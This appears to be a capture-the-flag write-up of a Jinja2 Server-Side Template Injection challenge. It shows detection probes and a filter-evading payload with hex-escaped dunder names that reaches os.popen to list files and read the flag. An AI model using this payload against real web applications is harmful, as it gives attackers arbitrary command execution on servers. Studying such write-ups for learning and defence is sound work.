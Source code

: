 Initial testing for Server-Side Template Injection (SSTI) involved injecting basic expressions like `{{7*7}}`, which returned `49`, confirming that the input was being evaluated by a server-side template engine. Further testing with `{{7*'7'}}` produced `7777777`, indicating that the engine supports Python-style operations such as string multiplication. According to PortSwigger’s SSTI decision tree, this pattern strongly suggests the use of the Jinja2 template engine, as it uniquely interprets expressions in this manner. These results confirm both the presence of an SSTI vulnerability and the underlying use of Jinja2.





<img width="640" height="386" alt="image" src="https://github.com/user-attachments/assets/1970a3c9-be16-4c1a-82b1-cfef04ab888c" />

Finally after testing 
 ```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|
attr('popen')('ls')|attr('read')()}}
```
<img width="671" height="374" alt="screenshot-1752556007" src="https://github.com/user-attachments/assets/8d9d1955-35f8-44c3-a0b3-a1472019a12c" />

Read the flag :p 
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|
attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|
attr('popen')('cat flag')|attr('read')()}}
```


<img width="1886" height="300" alt="screenshot-1752555811" src="https://github.com/user-attachments/assets/d69fc194-10ea-41f5-9bef-e34969180c17" />
